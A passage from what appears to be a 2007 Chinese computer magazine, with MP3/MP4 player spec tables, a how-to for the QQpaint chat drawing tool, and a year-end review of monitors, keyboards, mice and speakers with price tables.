| Iriver Clix(4G) | MP3、WMA、ASF、OGG | 4GB | 闪存 | 2.2寸AMOLED26万色QVGA、320*240 | 有 | 有 | 24 | 黑色 | 90 |
| Iriver S7 | MP3、WMA、ASF、OGG | 1GB | 闪存 | 无屏幕 | 无 | 无 | 9 | 棕色 | 90 |
| Sony NWD-B103F | MP3、WMA | 1GB | 闪存 | 三行彩色液晶屏 | 有 | 有 | 12 | 紫、黑、白色 | 90 |
| Sony NW-S203F | MP3、WMA、AAC、ATRAC3、ATRAC3plus | 1GB | 闪存 | 单行冷光(OEL)显示屏 | 无 | 有 | 18 | 银、黑 | 90 |
| Sony NW-E003F | MP3、WMA、AAC、ATRAC和ATRAC3plus | 1GB | 闪存 | 单行冷光(OEL)显示屏 | 无 | 有 | 28 | 黑、蓝、紫罗兰 | 90 |
| 三星 S5 | MP3、WMA、AAC | 2GB | 闪存 | 1.8英寸TFT LCD、176*208 | 有 | 有 | 24 | 黑、白 | 90 |
| 三星 YP-E3 | MP3、WMA、OGG | 1GB | 闪存 | 双色4行OLED屏 | 有 | 有 | 11 | 黑白、纯黑 | 88 |
| 爱国者 Disney F029 | MP3、WMA、OGG | 1GB | 闪存 | 1.3寸26万色OLED屏、160*128 | 有 | 无 | 4 | 橘黄 | 85 |
| 爱国者 E817(2G) | MP3、WMA、WAV | 2GB | 闪存 | 2.4英寸26万色320*240 TFT屏 | 有 | 有 | 10 | 银 | 85 |
| 爱国者 晶锐F969 | MP3、WMA、WAV | 2GB | 闪存 | 2.4英寸26万色QVGA(320*240)高清屏 | 有 | 有 | 8 | 黑、白 | 90 |
| 昂达 VX858 | MP3、WMA | 2GB | 闪存 | 2.8英寸26万色QVGA屏(320*240) | 有 | 有 | 15 | 黑 | >90 |
| 昂达 VX969 | MP3、WMA、WAV | 1GB | 闪存 | 2.2英寸26万色TFT屏(220*176) | 有 | 有 | 15 | 银 | 85 |
| 魅族 Mini Player豪华版 | MP3、WMA、WMA VBR、OGG、WAV | 2GB | 闪存 | 2.4英寸26万色 TFT LCD、320*240、100级亮度调节 | 有 | 有 | 20 | 黑、白 | >90 |
| 魅族Music Card | MP3、WMA、OGG、WAV、FLAC、WMALossless | 2GB | 闪存 | TFT滑动触摸屏 1.5" 176*132、100级亮度调节 | 有 | 有 | 23 | 黑、白 | >85 |
| 魅族 E3 | MP3、WMA、WAV | 1GB | 闪存 | 128*64、单蓝色OLED屏 | 有 | 有 | 12 | 银钛、黑、粉、蓝 | >90 |
| 纽曼 音影王M521 | MP3、WMA、APE、FLAC | 1GB | 闪存 | 1.5英寸65536色屏、128*128 | 有 | 无 | 8 | 黑 | ≥85 |
| 纽曼精音王N05(1G) | MP3、WMA | 1GB | 闪存 | 2英寸26万色高清TFT屏220*176 | 有 | 无 | 10 | 黑 | ≥85 |
| 纽曼 超清王Q90 | MP3、WMA | 2GB | 闪存 | 2.4英寸26万色QVGA高清TFT屏320*240 | 有 | 无 | 8 | 黑 | ≥90 |
| 台电 C280 | MP3、WMA、WAV | 2GB | 闪存 | 2.4寸26万色TFT屏、320*240 | 有 | 有 | 12 | 黑 | ≥98 |

##### MP4

| 产品型号 | 容量 | 视频播放格式 | 视频录制 | 音频播放格式 | 音频录制 | 屏尺寸 | 显示屏 | 电力规格 | 电视输出 |
|---|---|---|---|---|---|---|---|---|---|
| SONY NW-A805 | 闪存2GB | MPEG-4 (AVC(H.264/AVC)) | / | MP3、ATRAC3、ATRAC3plus、ATRAC Advanced Lossless、WMA、AAC | / | 2.0英寸 | 高清彩屏、QVGA (320 * 240) | 音乐30H、视频8H | / |
| SONY PMX-M75 | 闪存2GB | MPEG-4、AVI | AVI | MP3、WMA、AAC | MP3 | 4.3英寸 | TFT彩屏、16:9宽屏 (480*272) | 音乐18H、视频6H | NTSC/PAL |
| CREATIVE ZEN Vision:M | 硬盘60GB | DivX 4/5、XviD、MPEG-1/2、WMV9、Motion-JPEG | / | MP3、WMA、DRM、WAV | ADPCM | 2.5英寸 | 26万色480*272 6:9宽屏 | 18H音频、6H视频 | NTSC/PAL |
| CREATIVE ZEN Vision | 硬盘30GB | AVI、MPEG-1/2/4-SP、WMV、Motion-JPEG、DivX 4/5 或 XviD | / | MP3、WMA、DRM；PCM WAV | ADPCM | 3.7英寸 | 26万色TFT LCD (640*480) | 13H音频、4.5H视频 | NTSC/PAL |
| iMAX T9000 | 硬盘60GB | MPEG4、VOB、DAT、AVI等 | MP4 | MP3、WMA、OGG | MP3 | 4.3英寸 | 1600万真彩、480*272 | 视频5.5H、音频11H | NTSC/PAL |
| 爱国者视觉王MP-F336 | 硬盘80GB | AVI、MPG、VOB、DAT、DVD、SRT、SMI | / | MP3、WMA、OGG | WMA | 4.0英寸 | 1600万色高清屏 (480*272) | 5H音频、3H视频 | NTSC/PAL |
| RAMos V100+ | 闪存1GB | AVI (XVID/DivX3.1)、RM、MPEG、3GP、FLV | / | MP3、OGG、WMA、WAV、FLAC | WAV | 2.4英寸 | 26万色QVGA TFT屏、320*240 | 音频10H、视频4H | / |
| RAMos V300 | 闪存1GB | Xvid | / | MP3、WMA | WAV | 2.5英寸 | 1670万色LTPS屏 213*240 | 音频15H、视频5H | / |
| 昂达 VX737 PMP | 闪存2GB | AVI、MPEG4 SP、XVID/DivX3.11 | / | MP3、WMA、OGG、FLAC、WAV(PCM、ADPCM) | WAV | 2.5英寸 | 真彩TFT显示屏、320*240 | 音乐10H、视频5H | / |
| 纽曼影R88 | 闪存2GB | AVI | / | MP3、WMA | WAV | 2.8英寸 | 26万色TFT彩屏 (320*240) | / | / |
| 纽曼 高清王M5000 | 硬盘80GB | DAT、MPG、MPEG、VOB、AVI | AVI | MP3、WMA | MP3 | 3.5英寸 | 1600万色TFT真彩屏 | 3300mAh锂电池 | NTSC/PAL |
| 优百特X-918 | 闪存2GB | AVI | / | MP3、WMA、WAV | MP3 | 2.8英寸 | 26万色TFT屏、320*240 | 40H音频 | / |
| ARCHOS 博爱504 | 硬盘80GB | ASP、AVI、WMV | MPEG-4 SP视频 | MP3、WMA、WAV、插件播放AAC、AC3 | WAV格式 | 4.3英寸 | 1600万色TFT屏、480*272 | 音乐17H、视频5.5H | NTSC/PAL |
| ARCHOS 704 WiFi | 硬盘80GB | ASP、AVI、WMV | MPEG-4 SP、AVI | MP3、WMA、WAV、插件播放AAC、AC3 | WAV | 7.0英寸 | TFT触摸屏、800*480像素 | 音乐25H、视频5.5H | 输出TV |
| 爱普生P-5000 | 硬盘80GB | MOV、AVI、DivX、ASF、MPEG4、MPEG 1/2、VOB、MOD | / | MP3、WMA | MP3 | 4.0英寸 | 1600万色屏、640*480 | 视频3H、音频6H | NTSC/PAL |
| 长虹佳华PMP-MV570 | 硬盘80GB | AVI、MPG、VOB、DAT、MPEG-4、MPEG-2、MPEG-1 | / | MP3、WMA、OGG、AC3、PCM、ADPCM | WAV | 4.3英寸 | 16:9高清16.7M色宽屏、480*272 | 视频4H、音频8H | NTSC/PAL |
| 长虹佳华PMP-MV203 | 闪存1GB | ASF | 支持 | MP3、WMA | WAV | 2.5英寸 | LTPS低温多晶硅显示屏 | 2.5-3H | NTSC/PAL |
| 方正 Z280 | 闪存2GB | AVI Xvid | / | MP3、WMA | MP3 | 2.4英寸 | QVGA TFT屏 | 6H音频 | / |
| 方正 Z320 | 闪存1GB | AVI Xvid | / | MP3、WMA | MP3 | 2.0英寸 | 26万色真彩显示屏 | 6H音频 | / |
| 歌美 X-760 | 闪存2GB | RM/RMVB/AVI/FLV/MPG/MPEG/DAT | / | MP3、WMA、APE、FLAC | MP3 | 3.0英寸 | 1600万色TFT屏、960*240 | 25H音频、7H视频 | / |
| oppo V5H | 闪存2GB | AVI、Xvid | / | MP3、WMA、WAV | WAV | 3.0英寸 | 1600万色QVGA高亮宽屏 | 15H视频 | / |

### QQ “涂鸦板” 聊天更精彩

◆文/啄木鸟

很多喜欢用QQ聊天的人经常会通过发送各种QQ表情来“传情达意”，虽然网上有许多个性化的QQ表情可以供下载使用，但是用的时间长了难免会觉得乏味，如果自己能制作一些QQ表情来表达自己的感情，那感觉一定很酷！下面我们就来给大家介绍一个QQ聊天的好帮手——QQ手写画板（下载地址：http://www.6080.cn/ViewDownloadUrl.asp?ID=3698），利用它，我们随时可以将自己DIY的“大作”传给网友。其具体使用方法如下：

1.  下载解压后，双击运行“QQpaint v1.2.exe”（以下简称QQpaint）。打开一个QQ群聊天窗口，将输入焦点定位到消息框中，QQpaint将自动找到聊天窗体，并停靠在聊天窗体下。
2.  在QQpaint窗口中书写好你想发送的内容，单击QQpaint窗口中的“发送”按钮，就可以将你的“大作”发给别人看了。
3.  如果觉得系统默认的笔迹太粗或者颜色太死板，还可以改变字体的粗细和颜色。单击QQpaint窗口左上角的下拉箭头，选择合适的数字，就可以定义笔迹的粗细了，数字越大，笔迹越粗。单击“颜色”按钮，打开“颜色”窗口，在其中可以选择你喜欢的颜色作为书写的笔迹颜色。
4.  单击QQpaint窗口中的“设置”按钮，发现会多出两个单选按钮——“自动保存画板内容”和“发送完毕后清除画板内容”。选中前者，你发送的“墨宝”会自动保存在QQpaint所在目录中的pic文件夹中；选中后者，当你发完图片后，画板中的内容会自动清空，以方便你的下一次书写。

怎么样，这个小工具是不是很酷呢！动手试一下，你会有更多发现！

### 2007年技术点评与年度产品——外设部分

◆文/阿亮

#### LCD显示器

去年这个时候，我们还在为19英寸宽屏和普屏孰优孰劣而争论不休。时至今日，LCD显示器市场已经发生了翻天覆地的变化，其中尺寸之争是最直观的体现。此外，高清液晶和游戏液晶的呼声也越来越高，这些都是2007年LCD市场的主旋律。

##### 一、越大越精彩：LCD面板尺寸之变

从19英寸宽屏到24英寸宽屏，短短一年时间内，LCD尺寸完成了从量变到质变的过程。尽管关于点距过小、桌面应用不需要大屏幕以及TN面板充斥等负面评论从未停止过，但是LCD尺寸还是在彷徨中不断前行。

###### 1. 普屏面板艰难中挣扎：淘汰只是时间问题

如果说去年我们还会为宽屏分辨率能否适应大多数软件而担心，那么现在还在纠缠于这个问题就有些杞人忧天了。宽屏分辨率不仅在Vista操作系统下有很不错的表现，就连一些新发布的游戏也开始鼎力支持。在这一大背景下，普屏LCD在2007年越走越艰难。19英寸普屏限于其高于19英寸宽屏的成本而无法在主流市场得到消费者的认同，甚至少数几款产品的价格已经接近22英寸宽屏。20英寸普屏曾在年中昙花一现，但是当4：3显示比例的画面过大之后，实在无法适合大多数用户的视觉习惯。套用一个消费者的评论：普屏也不错，但是价格相差无几，为什么不选择更大的宽屏呢？

###### 2. 20英寸宽屏过眼烟云：22英寸引导潮流

在HDTV流行的年代里，不少用户都对19英寸宽屏较低的分辨率提出质疑。因此，2007年上半年出现了不少20英寸宽屏LCD，此时改用1680×1050像素分辨率，足足比19英寸宽屏的1440×900像素标准分辨率来说多出34%。但是问题也随之而来，因为此时并不大的可视面积要承担如此高的分辨率，最终只能导致点距只有0.258mm，甚至比19英寸宽屏的点距还要小。很快，22英寸宽屏取而代之，而且在价格上非常平易近人。由于22英寸宽屏几乎是清一色的改进型TN面板，所以出色的性价比已经横扫市场（图1）。

###### 3. 意外小插曲：21.6英寸横向杀出

就在所有人都以为22英寸宽屏一统天下的时候，21.6英寸宽屏横向杀出。事实上，21.6英寸的出现完全是液晶面板厂商为了切割最优化而导致的局面。奇美作为5.5代面板生产线的主力厂商一直力挺22英寸，因为此时面板利用率是最高的。但是，其他面板厂商普遍使用6代或是7代面板生产线，此时切割成22英寸十分浪费，而21.6英寸的面板可以获得更高的玻璃基板利用率。目前，21.6英寸宽屏还没能展现出足够的价格优势，但是只要假以时日，其降价空间必然会逐步显现出来。

###### 4. 24英寸时代来临：Full HD诱惑无法抗拒

尽管24英寸宽屏显示器在面板尺寸方面比22英寸宽屏大不了多少（对角线长度提高2英寸），但24英寸宽屏液晶显示器标准分辨率为1920×1200像素，在微软带领大家逐渐走入高清多媒体时代的大背景下，24英寸液晶显示器能对1080p/1080i格式的视频有更好的支持，这才是真正的Full HD。在长城的带领下，2007年已经出现了3000元以内的24英寸宽屏LCD，而当其他一线品牌陆续跟进之后，24英寸宽屏已经开始在高端市场普及开来（图2）。

##### 二、游戏液晶与高清液晶

游戏液晶与高清液晶，这已经成为今年LCD显示器市场绝对的焦点。对于用户而言，购买LCD最终还是落实到实际应用，而游戏和高清视频回放无疑是最热门的应用，这也造就了如今游戏液晶与高清液晶的繁荣局面。随着液晶技术的普及，平淡无奇的产品根本无法吸引挑剔的消费者，只有在应用场合中有着“特长”的产品才能出类拔萃。凭借出色的画质表现以及急速响应时间，越来越多的产品在主流市场上展现出完美的竞争力，这也让游戏液晶和高清液晶市场变得丰富多彩。

###### 1. 解析游戏液晶与高清液晶

游戏液晶概念在几年前就已经浮现，只是近期真正得到市场认同。游戏液晶要求显示画质清晰真实，绝对不能有令人烦恼的“残影”，而且要对眼睛和身体的伤害小。3D游戏最让人神往的地方就是可以将自己融入到游戏的场景中。其实游戏本身就是一个虚拟的世界，清晰真实的色彩显示会使玩家身临其境，确实做到“人在画中游”。画面清晰对于游戏也是一个重要的考评因素，此时不仅关系到用户的视觉体验，而且清晰的画面可以帮助用户降低视觉疲劳。当然，游戏液晶本身符合低辐射标准也是不容忽视的因素，这将确保用户的身体健康，长时间游戏时减少疲劳感。综上所述，我们可以将游戏液晶的特点归纳为响应时间为8ms以内、拥有优秀的画质和出色的色彩表现力，同时通过低辐射标准来确保用户健康。

相对而言，高清液晶概念出现得较晚。所谓高清液晶，便是能够在回放HDTV高清视频时可以清晰地再现画面，而不会让显示器成为画质瓶颈。毫无疑问，如今HDTV的分辨率已经发展得非常惊人，如果显示器的分辨率不足，那么难免影响画质。此外，再考虑到HDTV大多使用宽屏分辨率，因此19英寸以上大屏幕宽屏LCD是高清液晶的入门门槛。与此同时，高清液晶也要求有出色的色彩表现力，对比度和可视角度都必须出类拔萃，以此来确保整体视觉效果。

###### 2. 游戏液晶：响应时间突破极限

传统LCD显示器因为响应时间较慢，导致在高速运动的画面中容易产生“残影”现象。对于用户而言，无论是玩《极品飞车》等竞速游戏还是《孤岛惊魂》等射击游戏，都对此烦恼不堪。毫无疑问，当急速响应时间的游戏液晶一经问世之后，自然立即得到众多玩家们的垂青。随着液晶技术的发展，液晶性能和制造工艺已经有了质的飞跃，响应时间也不断创新低：16ms成为市场主流没多久，8ms便迅速地成为业内标准。而5ms问世后，消费者又迅速地把关注的目光聚焦到2ms的极速液晶上。而响应速度的不断提升，也使LCD显示器逐渐消除“残影”现象，最终解决了长久以来的“痼疾”。

另外值得注意的是，近期灰阶响应时间的概念逐渐兴起，这令很多准备购买LCD显示器的消费者十分关注。通常来讲，液晶面板黑白间的响应时间最快，而其他灰阶之间也是构成绝大多数不同色彩变化的响应时间，要比黑白间的响应时间慢一些。在传统响应时间计算方式下，液晶显示器虽然可拥有5ms、2ms或更快的响应时间，然而其灰阶响应速度却可能超过8ms。这样看来，传统的on/off黑白转换时间用来表示LCD响应时间存在以偏概全的嫌疑，无法精确地表示LCD面板的整体响应时间。如今灰阶响应时间的确更加客观地反映了整体响应速度，这一点已经毋庸置疑。

###### 3. 高清液晶：TN宽屏面板引爆潮流

19英寸宽屏LCD的1440×900像素分辨率似乎并没有引起我们太多的关注，更没能激发高清液晶的革命，因为这与以往的1024×768像素相比算不上质的飞跃，甚至还不如17英寸的1280×1024像素分辨率。但是，当我们迎来20英寸宽屏和22英寸宽屏之后，高清液晶终于被市场所接受，也逐渐成为主流产品。我们经常看到的HDTV分辨率是1280×720像素和1920×1080像素，这对于如今的显示器而言的确是不小的考验，如果分辨率进一步提高，那么将很难在现有的显示器上获得更加出色的画质，因为此时的瓶颈在于显示设备。另外也可以肯定的是，对于32英寸以下的屏幕而言，1920×1080像素分辨率已经达到人眼对动态视频清晰度的分辨极限，也就是说，再高的分辨率也只有在大屏幕显示器上才能显现出优势。现在，拥有1680×1050像素分辨率的20英寸LCD几乎是玩转高清视频的最低要求。720p标准的高清已经有落伍之嫌，用户使用17英寸LCD就足够应付。而考虑到性价比因素，我们认为当前也只有22英寸和24英寸的宽屏LCD才值得推荐。价廉物美的TN液晶面板是高清液晶时代的助推剂。作为明智的消费者，现在不应该拘泥于面板、真彩、接口等技术指标，拥有22英寸的大视野才是实现良好高清视频应用的前提。新一代TN面板已经实现了16.7M色，并且可视角度普遍在160度以上，再加上普及化应用的动态对比度技术，绝对是性价比之选。而至于24英寸LCD，这可谓高清液晶是最佳的选择，因为它能真正与1080p标准对应分辨率，那种没有分辨率拉丝的感觉的确是非常爽的。可惜的是，现在24英寸LCD还没有降价到位，因此22英寸绝对是当前最理想的过渡之选。

| 产品型号 | 尺寸规格 | 响应时间 | 对比度 | 接口 | 参考价格 |
|---|---|---|---|---|---|
| 三星 940BW | 19宽屏 | 4ms | 500:1 | D-Sub/DVI | 1699元 |
| 飞利浦 190CW7 | 19宽屏 | 5ms | 1000:1 | D-Sub/DVI | 1580元 |
| LG L194WT | 19宽屏 | 5ms | 5000:1动态 | D-Sub/DVI | 1699元 |
| AOC L193w | 19宽屏 | 5ms | 700:1 | D-Sub | 1399元 |
| 优派 VG1921wm | 19宽屏 | 5ms | 700:1 | D-Sub | 1599元 |
| 三星 226BW | 22宽屏 | 2ms | 3000:1动态 | D-Sub/DVI | 2480元 |
| AOC 210V | 22宽屏 | 5ms | 2000:1动态 | D-Sub/DVI | 1999元 |
| LG L226WTQ | 22宽屏 | 2ms | 5000:1动态 | D-Sub/DVI | 2499元 |
| 明基 FP222W | 22宽屏 | 5ms | 700:1 | D-Sub/DVI | 3099元 |
| 优派 VX2255wm | 22宽屏 | 5ms | 700:1 | D-Sub/DVI | 2499元 |
| 飞利浦 220WS8 | 22宽屏 | 5ms | 1000:1 | D-Sub/DVI | 2499元 |
| 华硕 MW221u | 22宽屏 | 2ms | 700:1 | D-Sub/DVI | 2499元 |
| AOC 416V | 24宽屏 | 5ms | 3000:1动态 | D-Sub/DVI | 3599元 |
| 玛雅 W241D | 24宽屏 | 6ms | 1000:1 | D-Sub/DVI | 3599元 |
| 三星 245B | 24宽屏 | 5ms | 3000:1动态 | D-Sub/DVI | 3799元 |
| 三星 244T | 24宽屏 | 6ms | 1000:1 | D-Sub/DVI/HDMI/色差 | 6999元 |
| 优派 VX2435wm | 24宽屏 | 8ms | 700:1 | D-Sub/DVI/HDMI/色差 | 6999元 |
| 赛普特 X24WG-Naga | 24宽屏 | 5ms | 1000:1 | D-Sub/DVI/HDMI/色差 | 4999元 |
| 明基 G2400W | 24宽屏 | 5ms | 1000:1 | D-Sub/DVI/HDMI | 3599元 |
| 明基 FP241W | 24宽屏 | 6ms | 1000:1 | D-Sub/DVI/HDMI/色差 | 6199元 |
| LG L245WP | 24宽屏 | 8ms | 1000:1 | D-Sub/HDMI/Component | 6999元 |
| Acer AL2416W | 24宽屏 | 6ms | 1000:1 | D-Sub/DVI | 4899元 |
| 美格 WT24D | 24宽屏 | 5ms | 800:1 | D-Sub/DVI | 2999元 |
| 长城 V247 | 24宽屏 | 6ms | 3000:1动态 | D-Sub/DVI | 2999元 |

#### 键盘

##### 1. 远离游戏杀手：拒绝键位冲突

现在的键盘技术采用的是非编码薄膜接触式结构，这样的构造是任何一个按键都有上下两层薄膜的触点，将键盘拆开后就会发现在任何一层薄膜上，导线数都远少于按键数，而且每一条导线都同时连通多个按键的触点。正是由于这样的设计，导致在同时按下三个以上按键的时候，很容易无法识别。譬如在游戏中经常需要按下45度方向键，此时如果再结合一个其他功能键就容易出现问题，这也就是我们所说的键位冲突。

### 2007年热点技术与产品

| 产品型号 | 接口 | 多媒体功能键 | 回车键 | 参考价格 |
|---|---|---|---|---|
| 三星蛟龙SDL3600 | PS/2 | 无 | 大回车 | 75元 |
| 三星猛龙SWT1000 | PS/2 | 无 | 大回车 | 128元 |
| 三星神龙SSD1000 | PS/2 | 有 | 大回车 | 99元 |
| 明基 轻指飞扬Q300 | USB | 有 | 大回车 | 79元 |
| 明基A800海贝键盘标准版 | USB | 有 | 小回车 | 159元 |
| 明基A110海湾键盘标准版 | PS/2 | 无 | 小回车 | 98元 |
| 明基K100超薄键盘二代时尚版 | USB | 无 | 大回车 | 69元 |
| 多彩7016P网易手 | PS/2 | 有 | 大回车 | 78元 |
| 多彩 DLK-9876P | USB | 有 | 大回车 | 70元 |
| 多彩 超凡手DLK-5000 | USB | 无 | 小回车 | 78元 |
| 多彩DLK-9888 | USB | 有 | 小回车 | 68元 |
| 技嘉GK-S2P | PS/2 | 无 | 有线 | 55元 |
| 微软灵巧键盘 | PS/2 | 有 | 小回车 | 89元 |
| 微软舒适2000 | USB | 有 | 小回车 | 159元 |
| 罗技白珍珠 | USB | 无 | 小回车 | 99元 |
| 罗技强手 | PS/2 | 无 | 大回车 | 58元 |
| 罗技易上手 | PS/2 | 无 | 大回车 | 60元 |
| 罗技酷影手 | PS/2 | 无 | 大回车 | 65元 |
| DELL SK-8115 | USB | 无 | 小回车 | 99元 |
| DELL SK-8135 | USB | 有 | 小回车 | 189元 |
| 优派快捷键 | USB | 有 | 大回车 | 89元 |
| 优派 KU306 | USB | 有 | 大回车 | 79元 |
| 优派 怡手键 | USB | 无 | 小回车 | 95元 |
| 金河田 尖兵 | PS/2 | 无 | 小回车 | 55元 |
| 金河田 漫步云端 | PS/2 | 无 | 小回车 | 65元 |
| 金河田重装猎人 | USB | 有 | 小回车 | 75元 |

冲突。因此，今年推出的新品大多为了减少键位冲突而绞尽脑汁地去修改键盘的线路排列，尽量让常用的游戏快捷键不互相冲突。但是，这只是尽可能地减少，绝对不是完全消除。

## 2.无线键盘技术进步

相对红外线键盘而言，2.4G频段的射频键盘要先进得多，也是目前的主流。它具有360度的信号接收角度与3米左右的信号范围，而且鼠标与射频发射器之间不受任何普通物体干扰。此外，射频键盘的抗干扰能力很强，绝对不会与周围的无线设备冲突，这些都是红外线键盘所不具备的。除此以外，射频键盘的功耗也要比红外线键盘小不少。一般的红外线键盘两节5号干电池只能使用3个星期，而射频鼠标起码可以使用2个月。

当然，目前无线传输最方便的还是蓝牙键盘。蓝牙的传输范围比射频大得多，而且功耗更小。不过就个人感觉而言，由于蓝牙兼容性非常麻烦，而且一般我们也不太需要很大的无线传输范围，因此价格相对便宜的射频无线键盘更加合适（图3）。

## 3.手感舒适的键盘更受欢迎

对于编辑、撰稿人等文字工作者甚至喜欢上网聊天的网友而言，键盘能否提供舒适的手感非常重要，这直接关系到自己的使用心情。键盘并没有像CPU或是显卡那样明显的技术指标，因此按照最直接也是最简单的理解，挑选键盘时最重要的就是手感，因为手感好的键盘可以让用户迅速而流畅地打字。

大家能够开阔思路，从使用角度去考虑真正的舒适度。即便是最普通的键盘，我们也建议大家要观察键盘的表面弧度，如果键盘从上到下设计成一个小弧面，那么打字起来就更加舒服。

#### 鼠标

与键盘相比，鼠标技术的进步速度显然更快一些。2007年，越来越多的用户更换了高分辨率的LCD，因此鼠标的分辨率也变得越来越重要。此外，适合电子竞技的产品依然是发烧友关注的重点，能否精准定位与快速移动，这永远是鼠标技术的发展重点。

##### 一、宽屏LCD带来的新问题：分辨率至关重要

在更换了宽屏LCD显示器之后，不少用户都感觉鼠标在打FPS游戏时非常吃力，具体的表现就是无法快速移动，往往拉过了整个鼠标垫，光标还是无法从屏幕的最左端移动到最右端。事实上，这种现象就是鼠标分辨率偏低所致，只不过如今的高分辨率LCD使得这种现象变得更加明显。

### 1.何为鼠标分辨率

鼠标分辨率的正确单位应该是cpi (count per inch，每英寸测量次数)，它所指的是鼠标在桌面上每移动1英寸距离鼠标所产生的脉冲数，脉冲数越多则鼠标的灵敏度也越高。鼠标分辨率越高，屏幕上的移动速度就越快，倘若屏幕尺寸/分辨率低，那么就感觉屏幕上的光标快速飞动而无法定位。但如果使用的是高分辨率、大尺寸屏幕，而鼠标分辨率很低，那么要将光标从一头移到另一头就会相当吃力。

当然，鼠标的分辨率并非越高越好，它必须与显示器的分辨率结合起来考虑。鼠标分辨率越高，屏幕上的移动速度就越快，倘若屏幕分辨率太低，那么就感觉屏幕上的光标快速飞动而无法定位。如今中档鼠标一般达到800cpi准，此时大约可以对应1024×768像素或是1280×1024像素分辨率的屏幕。而如果是19英寸宽屏以上，此时就会感觉横向移动略微有些反应迟钝，因此更高的鼠标分辨率显得很有必要。

## 2.宽屏高分辨率引发的矛盾

毫无疑问，随着未来大屏幕LCD的普及，其标准分辨率将会逐步提高，因此800cpi早晚会成为性能瓶颈。目前已经有罗技、微软、Razer等厂商推出了1600cpi的主流产品，甚至2000cpi也不再稀奇，在竞技游戏中得到广大玩家的认可。而除了更高的分辨率，解决低分辨率下过于灵敏也是一个技术趋势。以DX10下的一些发烧级游戏为例，很多用户将分辨率降低到800×600运行，而如果鼠标依旧是1600cpi，将会感觉非常不适应。目前仅有少数几款鼠标支持调整cpi，这种局面有望在今后得到改观。

##### 二、‘甩枪大法’必杀技：像素处理能力不可忽视

对于很多专业级玩家而言，除了解析度，更加关键的是鼠标的定位精准度。拿起鼠标之后，大幅度地迅速移动，然后立即停下。如果是一款定位精准的鼠标，此时应该马上稳定下来。假如做不到这一点的话，那么在游戏中将十分被动，至少瞄准时很不自在。很多用户认为鼠标的精确度是由产品质量决定的，其实真正起到作用的还是CMOS感光器和其采样能力。

### 1.采样频率：FPS竞技类鼠标的标志

提到FPS游戏中的稳定性，专业玩家一定会想到采样频率，这也是光电鼠标独有的性能指标，它所指的是感应器每秒钟采集/分析图像的能力，单位为‘帧/秒’。在《反恐精英》、《孤岛惊魂》之类的竞技游戏中，玩家们往往需要以30英寸/秒的高速度甩动鼠标，普通1500帧/秒采样频率显然无法满足要求。微软目前将鼠标的采样频率提高到9000帧/秒，而罗技采用的安捷伦引擎也在不停地改进。可以预计，随着鼠标的cpi越来越高而且屏幕分辨率不断提高，竞技游戏中快速甩动鼠标的手法将会逐步普及，因此对于光电鼠标的采样频率要求也会不断提高。

### 2.被遗忘的角落：CMOS面积

光电鼠标的采样频率达到6000帧/秒以上并不能万事大吉，这里还牵涉到CMOS面积的问题。所谓的光学引擎实际上是一个CMOS采样装置，采回的图像由许多紧密排列的小格组成，通过对比两次采样图像，找出相同的像素点就可以知道鼠标移动的方向，然后加以控制。如果两次采样的图像中无法找到共同的参照物，鼠标就无法判断移动的方向，出现丢帧甚至乱窜的现象。而为了杜绝这种不良现象，需要更高的CMOS像素和更高的采样频率。例如微软光学银光鲨4.0拥有高达9000帧/秒的采样频率和22×22的CMOS尺寸，可以计算出微软这款鼠标的像素处理能力为22×22×9000＝430万像素/秒。要达到这样的指标，对于CMOS图像传感器和数字信号处理器（DSP）要求都是非常高的，直接提升了鼠标的生产成本（图5）。从鼠标的像素处理能力来看，仅有出色的采样频率显然是不够的，还需要兼顾CMOS面积。以罗技鼠标为例，部分产品只有6000帧/秒的采样频率，但是凭借更大的CMOS面积，最终得到的像素处理能力并不逊于微软的高端产品。同样，部分号称拥有4500帧/秒采样频率的鼠标由于CMOS面积太小，其实际像素处理能力却非常低，这类产品反而很不合适。

| 产品型号 | 分辨率 | 按键数 | 定位与传输方式 | 参考价格 |
|---|---|---|---|---|
| 罗技MX518 | 1600cpi | 7 | 光电有线 | 278元 |
| 罗技G1 | 800cpi | 3 | 光电有线 | 168元 |
| 罗技 G5 | 2000cpi | 5 | 激光有线 | 360元 |
| 罗技 G7 | 2000cpi | 5 | 激光无线 | 699元 |
| 罗技 G9 | 3200cpi | 7 | 激光有线 | 799元 |
| 罗技 无限天貂 | 800cpi | 3 | 光电无线 | 128元 |
| 微软 IE3.0复刻版 | 400cpi | 4 | 光电有线 | 220元 |
| 微软 IE4.0 | 400cpi | 4 | 光电有线 | 159元 |
| 微软 暴雷鲨6000 | 1000cpi | 4 | 激光有线 | 268元 |
| 微软 无线霸雷鲨6000 | 1000cpi | 5 | 激光无线 | 580元 |
| Razer 金环蛇 | 1600cpi | 3 | 光电有线 | 220元 |
| Razer 铜斑蛇 | 2000cpi | 7 | 激光有线 | 430元 |
| Razer 炼狱蝰蛇 | 1800cpi | 5 | 光电有线 | 400元 |
| Razer 巨蝮蛇 | 4000cpi | 9 | 激光有线 | 599元 |
| 双飞燕 X5-70MD | 800cpi | 3 | 光电有线 | 70元 |
| 明基 流光狐M800 | 800cpi | 3 | 光电有线 | 65元 |

#### 音箱

2007年对于多媒体音箱来说是‘返璞归真’的一年。多声道音箱似乎受阻于高涨房价而带来的局限空间，2.0声道的产品越来越受欢迎。此外，专门用于笔记本电脑的迷你便携音箱也开始崭露头角。

## 1.2.0声道品位天籁之音

由于2.0架构音箱的设计理念来源于传统的音响设备，因此它也是目前最好的音乐欣赏的音箱类型。这种架构的音箱在电脑上其实发展并不顺利，经历了一个由流行到衰败再复兴的过程。这主要是因为最初为电脑设计的优秀2.0音箱较少，同时电脑声卡技术的限制也制约了2.0音箱的最终表现。另外，2.0音箱低音不足、空间定位不好的弊病也不适合电脑游戏向3D方向前进。不过随着计算机音频、存储技术的进步，电脑送给音箱的声音信号不再晦涩，而储存大容量音乐也变得易如反掌。同时，由于众多Hi-Fi音箱厂商看好电脑多媒体音箱市场，因此一时间涌现出众多优秀的2.0音箱系统，2.0音箱市场又焕发了青春（图6）。从结构和原理上说，2.0音箱适合那些对音乐欣赏有较高要求的用户。采用2.0架构的音箱也被称为书架箱，这样的音箱通常使用一对外形相同的立方箱体，两分频设计让中音表现非常甜美，因此很适合音乐欣赏，尤其是流行音乐。当然，这里所说的优势仅限于中高端2.0音箱，那些一味靠低价冲击低端市场的产品完全未发挥出2.0音箱的优势。至于2.1声道，基本上与2.0没有太大的区别，只不过将低音单元分离。分离的作用仅仅是令低频单元的设计更为简单，对于提高音质没有任何帮助。事实上，2.1架构是专门针对电脑音响系统提出的，主要是为了克服书架式音箱低音不足以及占用桌面空间较大等问题。但是随着